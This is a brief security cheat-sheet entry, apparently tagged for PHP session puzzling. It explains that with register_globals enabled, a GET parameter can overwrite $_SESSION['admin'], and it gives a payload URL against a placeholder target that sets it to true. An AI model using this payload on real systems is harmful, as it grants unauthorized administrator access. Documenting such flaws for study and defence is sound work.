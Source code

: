 #session_puzzlong #php 

When `register_globals` is enabled it is possible to overwrite PHP variables with a GET request.

Application Code:
```php
$_SESSION["admin"]=false
```

Payload:
```http
https://[TARGET_IP/?_SESSION["admin"]=true
```